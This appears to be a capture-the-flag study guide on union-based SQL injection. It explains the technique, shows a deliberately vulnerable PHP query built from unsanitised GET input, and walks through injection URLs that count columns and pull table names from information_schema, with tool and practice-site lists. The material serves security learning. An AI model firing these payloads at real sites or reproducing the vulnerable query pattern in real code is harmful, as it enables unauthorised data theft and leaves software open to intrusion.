 # SQL Injection: Union-Based SQL Injection

## Introduction

Union-Based SQL Injection is a type of SQL injection attack that leverages the SQL UNION operator to combine the results of two or more SELECT queries into a single result set. This method can be used by attackers to extract data from a database by adding their own queries to the original query, which the application executes.

## Table of Contents

- [SQL Injection: Union-Based SQL Injection](#sql-injection-union-based-sql-injection)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Code Snippets](#code-snippets)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)

## How to identify

To identify Union-Based SQL Injection vulnerabilities, look for inputs that are used directly in SQL queries without proper sanitization. Typical indicators include:

1. **Unexpected Behavior:** When inputting SQL syntax (like single quotes, double quotes, or UNION SELECT statements) causes unusual behavior in the application.
2. **Manual Testing:** Try injecting `UNION SELECT NULL` and incrementally increase the number of `NULL` values until the number of columns matches the original query.


```sql
http://somewebsite.com/products.php?id=1 UNION SELECT NULL,NULL
```
3. Sometimes you might be given the soruce code of the website with php in it. Here is an example of a vulnerable PHP code snippet:
   
```php
<?php
$id = $_GET['id'];
$query = "SELECT name, price FROM products WHERE id = '$id'";
$result = mysqli_query($conn, $query);
?>
```

## Code/tools/websites
### Code Snippets
The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:

```SQL
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

We can use this to add addtional queries to the one sent from the website.





### Tools
- **SQLMap:** An automated tool for SQL injection and database takeover.
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.
- **Havij:** An automated SQL injection tool.

### Websites
> [Zixem's 10 Challenges](https://www.zixem.altervista.org/SQLi/)
> 
> https://ctflearn.com/challenge/149 (Hard)


## Sample problem

### Problem Statement
You are given access to a web application with a product search feature. The URL for searching products is:
```plaintext
http://example.com/search.php?query=laptop
```
The taks is to identify if the application is vulnerable to Union-Based SQL Injection and extract the names of all tables in the database.

### Solution
1. Test for SQL injection vulnerability:
   ```SQL
   http://example.com/search.php?query=laptop' UNION SELECT NULL,NULL--
   ```
   If you receive an error or abnormal behavior, the site might be vulnerable.

2. Determine the number of columns:
   ```SQL
   http://example.com/search.php?query=laptop' UNION SELECT NULL,NULL,NULL--
   ```
   Adjust the number of `NULL` values until you get a valid response.

3. Extract table names:
   ```SQL
   http://example.com/search.php?query=laptop' UNION SELECT table_name,NULL FROM information_schema.tables--
   ```

> Note: Zixen website has some great problems on this topic, consider doing them to hone your skill :) 

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQLMap Documentation](https://sqlmap.org/)

## Conclusion

Union-Based SQL Injection is a powerful technique for extracting data from vulnerable applications. Identifying such vulnerabilities requires understanding the behavior of SQL queries and using appropriate tools and manual testing methods. By practicing with tools like SQLMap and platforms like PortSwigger Web Security Academy, you can enhance your skills in exploiting and securing web applications against SQL injection attacks.